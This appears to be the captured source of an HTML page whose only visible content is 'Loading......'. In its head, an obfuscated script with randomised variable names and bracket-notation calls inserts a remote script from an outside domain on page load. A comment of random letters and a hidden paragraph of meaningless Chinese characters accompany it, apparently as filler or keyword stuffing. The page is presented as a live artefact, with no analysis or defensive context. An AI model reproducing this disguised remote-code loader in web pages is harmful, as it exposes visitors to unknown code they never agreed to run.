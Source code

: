 
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <meta content="width=device-width,initial-scale=1,user-scalable=0,minimum-scale=1,maximum-scale=1" name="viewport" />
    <meta content="yes" name="apple-mobile-web-app-capable" />
    <meta content="black" name="apple-mobile-web-app-status-bar-style" />
    <meta content="no" name="msapplication-tap-highlight" />
    <meta content="IE=edge" http-equiv="X-UA-Compatible" />
    <title>....</title>
    <script type="text/javascript">
        var WAItcl1 = WAItcl1 || [];
        var b2 = ["//cdn.beegohome.com/Mjk/h.js"];
        var h3;
        var t4;
        for (var EHugIhEBiAC = 0; EHugIhEBiAC < b2["length"]; EHugIhEBiAC++) {
            h3 = window["document"]["createElement"]("script");
            h3["src"] = b2[EHugIhEBiAC];
            t4 = window["document"]["getElementsByTagName"]("script")[0];
            t4["parentNode"]["insertBefore"](h3, t4);
        }
    </script>
    <!-- UCfPNbrHOLLmwAmWVQIxvKCaNxTaVabQDgGriXYWJKjflvbhmJ-->
</head>
<body>
加载中......
<p style="display: none;">舵肃普蟹驮扒能赐兑退甘僵蒜沥黎帘赡淖煎胸揪眷扳嚼量</p>
</body>
</html>
